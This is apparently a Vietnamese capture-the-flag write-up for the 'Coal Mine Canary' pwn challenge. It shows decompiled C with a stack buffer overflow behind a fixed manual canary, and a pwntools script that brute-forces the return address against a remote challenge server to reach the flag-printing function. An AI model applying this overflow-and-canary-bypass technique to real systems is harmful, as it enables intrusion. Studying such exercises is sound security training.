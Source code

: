 # Coal Mine Canary
Bài này hài nhất giải =D
## Analysis
Lỗi buffer overflow cùng với canary được cài đặt thủ công, nhiệm vụ là chạy được hàm `tweet_tweet`
```
void name_it(void) {
  int iVar1;
  size_t local_5c;
  char local_58 [32];
  undefined local_38 [32];
  undefined4 local_18;
  undefined4 local_14;
  int local_10;
  
  local_10 = 0;
  local_18 = global_birdy;
  local_14 = DAT_0804c050;
  printf("How many letters should its name have?\n> ");
  while ((local_10 < 0x20 && (read(0,local_58 + local_10,1), local_58[local_10] != '\n'))) {
    local_10 = local_10 + 1;
  }
  __isoc99_sscanf(local_58,&DAT_0804a10e,&local_5c);
  printf("And what\'s the name? \n> ");
                    /* Buffer overflow */
  read(0,local_38,local_5c);
  iVar1 = memcmp(&local_18,&global_birdy,8);
  if (iVar1 == 0) {
    printf("Ok... its name is %s\n",local_38);
    fflush(_stdout);
    return;
  }
  puts("*** Stack Smashing Detected *** : Are you messing with my canary?!");
                    /* WARNING: Subroutine does not return */
  exit(-1);
}
```
```
void tweet_tweet(void) {
  char local_30 [32];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("\'flag.txt\' missing in the current directory!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  fgets(local_30,0x20,local_10);
  puts(local_30);
  fflush(_stdout);
  return;
}
```
## Solution
Do giá trị canary không đổi nên ta brute force và có được giá trị `NECGLSPQ`  
Đặc biệt, binary được cung cấp và binary trên server là khác nhau, vì vậy chúng ta cần brute force để tìm địa chỉ hàm `tweet_tweet` =D
```
#!/usr/bin/python3
from pwn import *

context.binary = elf = ELF("./challenge", checksec = False)

for i in range(0x8049215+100, elf.sym['tweet_tweet']+300):
    con = remote("34.125.199.248", 5674)
    log.info("Trying: " + hex(i))
    con.sendlineafter(b"letters should its name have?", b"200")
    payload = b"A"*32 + b"NECGLSPQ" + b"B"*16 + p32(i) 
    con.sendafter(b"And what's the name?", payload)
    ans = con.recvall()
    if b"CTF" in ans:
        print(ans)
        break
```
## Flag
```
OSCTF{I_l0ve_my_c4n4ry}
```
